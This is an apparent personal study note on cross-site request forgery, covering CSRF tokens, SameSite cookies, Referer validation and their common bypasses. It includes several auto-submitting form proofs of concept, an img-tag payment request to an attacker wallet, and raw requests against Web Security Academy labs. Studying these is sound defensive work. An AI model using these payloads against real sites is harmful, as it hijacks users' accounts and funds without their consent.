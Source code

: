 
>[!question] What is CSRF?
>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This allows attacker to partially circumvent the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md).

An HTTP request can be generated in thousands of ways, including with the following code:

```html
<img src="http://crypto.example.com/pagamenti.php?importo=300&wallet=Id_attacker_wallet" >
```

If a [crypto.example.com](http://crypto.example.com/) domain exists, attaching the following code to an e-mail would enable a victim to be defrauded by a request that was never made actively.

## How does CSRF work?

Three different key conditions must be satisfied:

- **A relevant action**: There is an action within the application that the attacker has a reason to induce. (payments, changing user's data, etc.)
- **Cookie-based session handling**: There is no other mechanism in place for tracking sessions or validating user requests besides cookies.
- **No unpredictable request parameters**: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

>[!note]
>Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

## Basic PoC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Defenses against CSRF attacks

### CSRF tokens

>[!question] What is a CSRF token?
>**CSRF tokens** are a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, the client must include the correct CSRF token in the request.

#### Common bypasses and flaws

- **Validation of CSRF token depends on request method**: 
  Some applications correctly validate the token when the request uses a specific method but skip the validation when other methods are used.

- **Validation of CSRF token depends on token being present**:
  Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

- **CSRF token is not tied to the user session**:
  Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

- **CSRF token is tied to a non-session cookie**:
  Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. If the web site contains **any behavior that allows an attacker to set a cookie in a victim's browser**, then an attack is possible.
  >[!note]
  >The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.
  
  >[!example]
  >Vulnerable request which allows to set arbitrary cookies:
  >![CSRF](../../zzz_res/attachments/CSRF1.png)
  >CSRF request using a secondary cookie to verify CSRF owner:
  >```http
POST /my-account/change-email HTTP/1.1
Host: 0ab300650480e718c04b4561003a00e1.web-security-academy.net
Cookie: LastSearchTerm=test; csrfKey=Rgkjc4H27R86RdwCHABNut5IkSp27ptL; session=dP0hnLqpEuSTZI6o04EOafAnL1RiVYMx
Content-Length: 59
Content-Type: application/x-www-form-urlencoded
Connection: close
>
email=test%40test.com&csrf=waQRtvxCwZbNaHazxoQTU9HXCFw4PZ6S
>```

- **CSRF token is simply duplicated in a cookie**:
  In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. This is sometimes called the "double submit" defense against CSRF. Like before, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own.
  >[!example]
  >```http
  >POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
>
>csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
>```

### SameSite attribute on cookies

>[!question] What is the [SameSite attribute](SameSite%20attribute.md) for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

#### Common bypasses and flaws
- [Bypass SameSite Lax restrictions using GET requests](SameSite%20attribute.md#Bypass%20SameSite%20Lax%20restrictions%20using%20GET%20requests)
- [Bypass SameSite Lax restrictions with newly issued cookies](SameSite%20attribute.md#Bypass%20SameSite%20Lax%20restrictions%20with%20newly%20issued%20cookies)
- [Bypass SameSite restrictions using on-site gadgets](SameSite%20attribute.md#Bypass%20SameSite%20restrictions%20using%20on-site%20gadgets)
- [Bypass SameSite restrictions via vulnerable sibling domains](SameSite%20attribute.md#Bypass%20SameSite%20restrictions%20via%20vulnerable%20sibling%20domains)

### Referer-based validation

^7c9e8d

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). However, refer to [evading restrinctions](Evading%20Restrictions.md#Other%20resources) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.

   >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

